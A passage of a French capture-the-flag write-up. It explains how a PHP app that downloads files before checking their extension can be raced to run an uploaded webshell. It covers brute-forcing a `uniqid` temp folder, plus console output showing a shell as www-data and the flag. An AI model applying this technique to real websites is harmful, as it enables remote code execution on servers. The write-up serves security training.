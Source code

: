 **L'attaquant a donc au maximum 30 secondes pour trouver le nom du dossier temporaire**.

## Upload d'un fichier PHP

Dans la méthode `getSignature`, le fichier est d'abord téléchargé PUIS son extension est vérifié ! Cela veut dire que même si seuls les extensions d'images sont autorisées, un fichier avec une extension `.php` sera tout de même présent sur le disque jusqu'à sa suppression dans le destructeur.

```php
    public function getSignature() : string {

        $this->_downloadFile();
        $this->_verifyExtension();
        // ...
        $sig = sha1_file($this->_file);
        return $sig;
    }
```

On est face à une **Race Condition** où il va falloir réussir à accéder à notre fichier avant qu'il ne soit supprimé du serveur. Pour cela, il y a plusieurs façons de maximiser ses chances :
- multiplier le nombre de requêtes concurrentes pour accéder au fichier
- augmenter la taille du fichier à télécharger pour ralentir les opérations sur le serveur
- try and retry =)

## Exploitation

En résumé, pour obtenir une RCE il faut :

A. Créer un web serveur qui temporise X secondes l'accès au fichier

B. On lance notre bruteforce qui va :

    1. Incrémenter progressivement la valeur de `uniqid` jusqu'à trouver le dossier temporaire (code HTTP 404 vs 403)

    2. Une fois le dossier trouvé, essayer d'accéder à notre webshell php en boucle qui va dupliquer notre webshell avant qu'il ne soit supprimé.

Et si ça ne marche pas, on réessaie !

Dans un premier terminal, on démarre un serveur php où se trouve le fichier pwn.php:

```console
pun@ctf:~$ php -S 0.0.0.0:8888
[Wed Aug 28 21:29:44 2024] PHP 8.3.6 Development Server (http://0.0.0.0:8888) started

```

Dans un second terminal, on lance l'exploit :
```console
pun@ctf:~$ php pwn.php
Searching for temporary directory...
  [Dir] '/tmp/downloads/random-66cf7af30ed/' (in 51 requests)
(semi-interactive shell) $> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

(semi-interactive shell) $> pwd
/var/www/html/public/tmp/downloads/random-66cf7af30ed

(semi-interactive shell) $> grep -R brb /var/www/html/
/var/www/html/security/proof/flag.txt:brb{DotDot_Nginx_And_uniqid_R4ce_Cond1t1on}
```
